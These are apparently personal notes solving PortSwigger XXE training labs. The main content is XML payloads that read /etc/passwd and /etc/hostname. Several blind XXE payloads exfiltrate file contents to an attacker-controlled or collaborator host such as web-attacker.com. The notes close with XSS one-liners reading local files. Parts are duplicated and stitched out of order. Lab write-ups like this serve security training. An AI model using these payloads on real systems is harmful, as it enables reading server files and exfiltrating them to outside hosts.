 # Read files:

# XML

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

**request**:
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&aparecium;
</productId><storeId>2</storeId></stockCheck>
```
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 


**what we know:**
EC2 metadata endpoint -  http://169.254.169.254/

1. **request1**: test vilnerability
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&aparecium;
</productId><storeId>2</storeId></stockCheck>

 This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file. 

**hint**: By default, XInclude will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the XInclude directive to change this behavior. 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```
<!-- examples: https://en.wikipedia.org/wiki/XInclude -->

To solve the lab, exfiltrate the contents of the /etc/hostname file. 

materials:
**exfiltrate payload:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

# ***3. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD***
https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file. 

materials:
**exfiltrate payload:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

**to be hosted in exploit server address:**
    http://web-attacker.com/malicious.dtd

**payload submission to victim:**
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

colaborateor:
    g0hojfqbweb8xmmqqid4qsobw22uqj.oastify.com


1.  craft a payload to exfiltrate content (stage2) - to be hosted on exploit server.
*(after failing with exfiltrating /etc/passwd (beacause of new line characters not being parsed by XML - replace target to /etc/hostname)* 

```xml
 <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://1su9b0iwoz3tp7ebi35pidgwonuhi6.oastify.com/?x=%file;'>">
    %eval;
    %exfiltrate;
```

2. the payload address:
```
https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd
```

3. craft payload for entry-site (stage1)
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd"> %xxe;]>
```
4. send to vulnerable site:
**request**:
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

5. observe in colaborator:
```
GET /?x=7369a26b5cf0 HTTP/1.1
```
6. enter the value of x as solution

# Lab Solved

# ***5. Lab: Exploiting blind XXE to retrieve data via error messages***
https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

1. craft stage2 in exploit server:
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
exploit address:
```
https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd
```
2. craft payload for entry-site (stage1)
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd"> %xxe;]>

send stage 1:
**request**:
    POST /product/stock HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd"> %xxe;]>

response:
    HTTP/1.1 400 Bad Request

    "XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...

# Lab Solved


# XSS

<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

{{ '<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");alert(x.responseText);</script>' }} -->